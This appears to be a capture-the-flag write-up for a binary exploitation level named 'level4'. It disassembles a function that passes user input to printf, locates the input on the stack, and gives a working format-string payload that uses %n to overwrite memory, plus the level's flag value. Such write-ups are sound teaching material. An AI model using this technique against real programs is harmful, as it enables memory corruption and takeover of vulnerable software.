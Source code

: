 Same as the last exercice, we need to use `String Format Exploit`, we decompile with `objdump -d level4` :
```nasm
08048444 <p>:
 8048444:	55                   	push   %ebp
 8048445:	89 e5                	mov    %esp,%ebp
 8048447:	83 ec 18             	sub    $0x18,%esp
 804844a:	8b 45 08             	mov    0x8(%ebp),%eax
 804844d:	89 04 24             	mov    %eax,(%esp)
 8048450:	e8 eb fe ff ff       	call   8048340 <printf@plt>
 8048455:	c9                   	leave  
 8048456:	c3                   	ret 
```

```bash
python -c 'print "AAAA " + "%x "*15' | ./level4 
AAAA b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078 
```
we found 41414141 at the 12th position

So we may use `printf()` in `p()` function to evaluate and change the `EIP` register :
At 12th posisition got `41414141` so we replace `AAAA` by the address to change, followed by a huge padding equal to 16930116 (-4 to decrease `m()` address length) and finaly followed by `%12$n`
`m()` is at *0x08049810

```bash
python -c 'print  "\x10\x98\x04\x08" + "%16930112d%12$n"' | ./level4
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```